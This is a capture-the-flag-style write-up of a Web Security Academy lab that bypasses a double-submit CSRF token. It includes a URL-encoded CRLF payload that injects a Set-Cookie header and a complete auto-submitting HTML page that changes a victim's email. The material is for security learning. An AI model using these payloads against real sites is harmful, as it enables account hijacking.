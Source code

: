 <div align='center'>

# **CSRF**

</div>

## **Lab:** CSRF where token is duplicated in cookie

**Goal:** Use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
 
**The lab provide:** A credential wiener:peter

**Solution:**

1.  When going to the login page, the server generated a csrf token and set the csrf cookie to that value as well

![](./img/1.png)

2.  If we change the csfr in the request body and the csrf cookie to the same value, the server still allow us the change the email. Therefore, we can bypass the csrf token by setting the csrf cookie and csrf token to the same value. We need a way to inject cookie to the victim's browser.

![](./img/2.png)

3.  In the search funtion, we see that the search term get reflected in the Set-Cookie header in the respond

![](./img/3.png)

This function has no csrf protection, we can use this payload endpoint to inject the cookie

```
/?search=aa%0d%0aSet-Cookie%3a+csrf%3da%3b%20SameSite=None
```

That payload is a URL encode version of

```
/?search=test
Set-Cookie: csrf=fake; SameSite=None
```

Send this payload, we see that the server will set a csfr cookie for us

![](./img/4.png)

4.  Construct an HTML page like below. This page will auto submit the changing email request to the server

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a7c00b5046fe6dac09de712000900b6.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test1&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="a" />
      <input type="submit" value="Submit request" />
    </form>
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=aa%0d%0aSet-Cookie%3a+csrf%3da%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

The img tag will make a GET request to the payload endpoint which will set a csrf cookie. Since this request does not return an image, this will trigger an error and will submit the changing email request for us (by `onerror="document.forms[0].submit()`)

5.  Submit this html page to the expoit server and solve the lab

![](./img/5.png)
